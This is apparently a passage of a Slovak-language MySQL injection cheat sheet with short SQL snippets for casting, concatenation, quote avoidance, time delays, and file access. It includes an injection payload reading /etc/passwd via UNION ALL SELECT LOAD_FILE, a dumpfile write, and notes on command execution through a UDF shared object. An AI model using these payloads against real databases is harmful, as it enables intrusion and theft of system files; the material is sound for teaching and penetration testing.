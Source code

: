 ### 💯 Pretypovanie (Casting)
```sql
--  Pretypovanie (Casting)	
SELECT cast('1' AS unsigned integer);
SELECT cast('123' AS char);
```

### 💭 Spájanie reťazcov, zreťazenie (String Concatenation/join)	
```sql
--  Spájanie reťazcov, zreťazenie (String Concatenation/join)	
SELECT CONCAT('A','B'); # returns AB
SELECT CONCAT('A','B','C'); # returns ABC
```

### 🧭 Riadiaca štruktúra/príkaz IF (IF Statement)	
```sql
-- Riadiaca štruktúra/príkaz IF (IF Statement)	
SELECT if(1=1,'foo','bar'); -- returns 'foo’
```

### Riadiaca štruktúra/príkaz CASE (CASE Statement)	
```sql
-- Riadiaca štruktúra/príkaz CASE (CASE Statement)	
SELECT CASE WHEN (1=1) THEN 'A' ELSE 'B' END; # returns A
```

### 🌶️ Vyhnutie sa uvodzovkám (Avoiding Quotes)	
```sql
-- Vyhnutie sa uvodzovkám (Avoiding Quotes)	
SELECT 0×414243; # returns ABC
```

### ⏲️ Oneskorenie (Time Delay)	
```sql
-- Oneskorenie (Time Delay)	
SELECT BENCHMARK(1000000, MD5('A'));
SELECT SLEEP(5); # >= 5.0.12
```

### 🧪 Vykonávanie príkazov (Command Execution)	
```sql
-- Vykonávanie príkazov (Command Execution)	
/* If mysqld (<5.0) is running as root AND you compromise a DBA account you can execute OS commands by uploading a shared object file into /usr/lib (or similar).  The .so file should contain a User Defined Function (UDF).  raptor_udf.c explains exactly how you go about this.  Remember to compile for the target architecture which may or may not be the same as your attack platform.
*/
```

### 📁 Prístup k lokálnemu súboru (Local File Access)	
```sql
-- Prístup k lokálnemu súboru (Local File Access)	
…' UNION ALL SELECT LOAD_FILE('/etc/passwd') --  priv, can only read world-readable files
SELECT * FROM mytable INTO dumpfile '/tmp/somefile'; --  priv, write to file system
```

